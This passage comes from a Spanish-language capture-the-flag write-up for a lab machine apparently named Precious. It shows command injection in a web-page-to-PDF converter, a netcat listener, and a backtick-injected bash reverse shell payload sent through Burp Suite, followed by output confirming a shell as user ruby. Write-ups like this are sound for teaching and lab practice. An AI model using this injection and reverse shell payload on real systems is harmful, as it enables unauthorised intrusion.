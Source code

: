 Verificaremos que al realizar la conversión de la Web page a PDF, se nos muestra el comando ejecutado en el mismo PDF, esto debido al `Command Injection`.

<figure><img src="../../.gitbook/assets/imagen (358).png" alt=""><figcaption></figcaption></figure>

Para realizar una Reverse Shell realizando la explotación manual, realizaremos los siguientes pasos. Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde `BurpSuite` interceptaremos la solicitud al darle a `Submit` después de indicarle la URL. Indicaremos el siguiente payload para proporcionarnos la Reverse Shell.

```bash
http://10.10.16.7/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"`
```

<figure><img src="../../.gitbook/assets/4968_vmware_fg7vU7F4pI.png" alt=""><figcaption></figcaption></figure>

Comprobaremos que hemos conseguido realizar el `Command Injection` y hemos recibido correctamente la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.189] 34626
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

## Initial Access
